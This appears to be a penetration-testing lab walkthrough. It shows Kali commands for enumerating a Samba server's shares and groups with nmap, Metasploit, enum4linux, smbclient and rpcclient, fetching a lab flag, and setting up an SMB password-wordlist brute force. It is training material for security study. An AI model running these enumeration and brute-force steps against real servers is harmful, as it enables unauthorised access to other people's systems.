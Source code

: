 #### Samba 3

```bash
john@kali> ip a
john@kali> ping 192.30.188.3
john@kali> nmap 192.30.188.3
john@kali> nmap 192.30.188.3 -sV -p 139,445

# 1. List all available shares on the samba server using Nmap script.
john@kali> nmap 192.30.188.3 --script smb-enum-shares -p 445

# 2. List all available shares on the samba server using smb_enumshares Metasploit module.
john@kali> msfconsole
msf5> use scanner/smb/smb_enumshares
msf5> set rhosts 192.30.188.3
msf5> run
msf5> exit

# 3. List all available shares on the samba server using enum4Linux.
john@kali> enum4linux -S 192.30.188.3

# 4. List all available shares on the samba server using smbclient.
john@kali> smbclient -U '' -N 192.30.188.3

# 5. Find domain groups that exist on the samba server by using enum4Linux.
john@kali> enum4linux -G 192.30.188.3

# 6. Find domain groups that exist on the samba server by using rpcclient.
john@kali> rpcclient -U '' -N 192.30.188.3
rpcclient> enumdomgroups
rpcclient> exit

# 7. Is samba server configured for printing?


# 8. How many directories are present inside share “public”?
john@kali> smbclient -U '' -N \\\\192.30.188.3\\public
smb> ls
smb> exit

# 9. Fetch the flag from samba server.
john@kali> smbclient -U '' -N \\\\192.30.188.3\\public
smb> cd secret
smb> get flag
smb> exit
john@kali> cat flag

```

#### Dictionary attack

```bash
john@kali> ip a
john@kali> ping 192.235.130.3
john@kali> nmap 192.235.130.3
john@kali> nmap 192.235.130.3 -p 139,445 -sV

# 1. What is the password of user “jane” required to access share “jane”?
#    Use smb_login metasploit module with password wordlist usr/share/wordlists/metasploit/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/smb/smb_login
msf5> set rhosts 192.235.130.3
msf5> set smbuser jane
msf5> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```